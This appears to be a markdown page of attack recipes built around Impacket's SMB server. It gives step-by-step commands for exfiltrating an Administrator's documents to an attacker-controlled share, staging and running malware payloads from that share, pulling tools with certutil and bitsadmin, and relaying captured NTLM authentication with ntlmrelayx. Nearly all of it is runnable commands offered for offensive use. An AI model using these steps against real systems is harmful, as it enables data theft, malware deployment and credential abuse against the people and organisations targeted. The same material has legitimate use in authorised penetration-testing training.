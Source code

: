 ### Post-Exploitation File Exfiltration
```bash
# Step 1: Set up authenticated SMB server
sudo python3 smbserver.py -username admin -password SecretPass123! EXFIL /tmp/stolen

# Step 2: From compromised system, mount and copy data
# On Windows PowerShell:
# net use X: \\192.168.1.100\EXFIL /user:admin SecretPass123!
# robocopy C:\Users\Administrator\Documents X:\ /E /COPY:DATSO

# Step 3: Analyze exfiltrated data locally
ls -la /tmp/stolen/
```

### Malware Distribution
```bash
# Step 1: Set up SMB server with malware payload
sudo python3 smbserver.py TOOLS /tmp/malware

# Step 2: Place various payloads in the share
cp payload.exe /tmp/malware/
cp payload.dll /tmp/malware/
cp payload.ps1 /tmp/malware/

# Step 3: Execute from target systems
# On Windows: \\192.168.1.100\TOOLS\payload.exe
# Or use other execution methods pointing to SMB share
```

### Living off the Land File Transfer
```bash
# Step 1: Create SMB server for file hosting
sudo python3 smbserver.py LOLBAS /tmp/tools

# Step 2: Use Windows built-in tools for file transfer
# From Windows command prompt:
# certutil -urlcache -split -f \\192.168.1.100\LOLBAS\tool.exe C:\temp\tool.exe
# bitsadmin /transfer job \\192.168.1.100\LOLBAS\file.txt C:\temp\file.txt
```

### NTLM Relay Attack Setup
```bash
# Step 1: Set up SMB server to capture authentication
sudo python3 smbserver.py -outputfile ntlm_capture.log CAPTURE /tmp/capture

# Step 2: Combine with ntlmrelayx for relay attacks
# In another terminal:
sudo python3 ntlmrelayx.py -t 192.168.1.200 -smb2support

# Step 3: Trigger authentication to your SMB server
# Authentication attempts will be relayed to target systems
```
